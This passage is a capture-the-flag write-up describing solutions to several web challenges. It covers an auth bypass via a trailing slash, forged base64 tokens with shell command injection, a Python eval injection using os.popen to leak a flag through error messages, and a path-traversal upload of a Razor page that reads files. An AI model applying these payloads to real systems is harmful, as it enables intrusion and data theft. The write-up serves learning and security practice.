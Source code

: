 A site with a login form, and security bulletins providing patches (a little confusing since it provides the patch for the latest version, but is running the previous version?). Anyway, to find the change I downloaded both patches, extracted, used `diff --recursive` to find only the .dll had change, used dotPeek to extract the dll's as projects, ran diff again to find a line in the SetupController had changed. The line in question controlled access to `/Setup/SetupWizard` which if accessible allows you to set the admin credentials. By putting a `/` on the end of this the control is bypassed and you get access.

Once in you can browse various systems. The first has the flag on its desktop. Cool challenge.

### Plantopia

The website provided has an API, and the auth token can be forged (its admin.1.epochdate, base64 encoded, shown in the auth popup on the swagger api). Each plant has a possible alert command, which is a straight shell value: you can set this with a call to `GET /api/plants/3/edit`, run it with a call to `POST /api/admin/sendmail` (passing the plant id), and see the results with a call to GET `/api/admin/logs`. The flag is in the web directory.

### Pillow Fight

A website where you can combine images. There is a link to the API, where one of the three parameters (two are images) is a python eval command. Receiving a response is tricky, since the result of the eval command must be cabable of 'save': my solution was to use the existing example, `convert(img1 + im2, "L")` and trigger errors to extract the flag. E.g.: `convert(img1 + img2, __import__('os').popen('tail -c +0 flag.txt | head -c 8').read())` which will return an error like: "conversion from L to flag{b6b not supported". I then read out the flag in small chunks and reassembled.

### Zippy

A website where you can upload files. Proudly claims its razor pages with runtime compilation. The browse page takes absolute paths, and you can enumerate the server finding /app/flag.txt and /app/Pages/ where the cshtml razor pages are. The upload functionality doesn't restrict file type, and the 'ID' form field is appended as a directory name to /app/wwwroot/uploads/ (e.g. id 1 would make this /uploads/1/). The JS of the page will prevent path traversal but disabling this or using burp repeater will allow you to upload files to arbitrary locations.

The solution (for me) was to upload a custom cshtml file into /Pages/, overwriting the unused privacy.cshtml file then browsing to /Privacy on the website. In burp this looked like:

```
{"accountId":"../../Pages/","accountName":"test","fileName":"Privacy.cshtml","fileContent":.....
```

The content was the following razor content, base64 encoded:

```razor
@page

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag Display</title>
</head>
<body>
    <h1>Flag Display</h1>
    <div>
        <p>Contents of the flag file:</p>
        <pre>
            @{
                var filePath = "/app/flag.txt";
                string fileContent;

                if (System.IO.File.Exists(filePath))
                {
                    fileContent = System.IO.File.ReadAllText(filePath);
```